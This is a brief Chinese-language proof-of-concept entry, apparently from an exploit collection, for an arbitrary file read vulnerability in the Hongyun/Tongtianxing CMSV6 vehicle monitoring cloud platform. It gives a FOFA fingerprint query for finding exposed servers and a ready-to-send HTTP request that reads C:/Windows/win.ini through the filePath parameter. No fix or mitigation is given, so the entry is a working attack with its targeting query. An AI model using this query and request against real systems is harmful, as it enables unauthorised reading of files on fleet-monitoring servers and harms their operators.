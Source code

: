## 鸿运(通天星CMSV6车载)主动安全监控云平台存在任意文件读取漏洞

## fofa
```
body="./open/webApi.html"||body="/808gps/"
```

## poc
```
GET /808gps/StandardReportMediaAction_getImage.action?filePath=C://Windows//win.ini&fileOffset=1&fileSize=100 HTTP/1.1
Host:127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```

![image](../../images/4c7d4c08-d72f-477b-9604-f9cec433e39c.png)
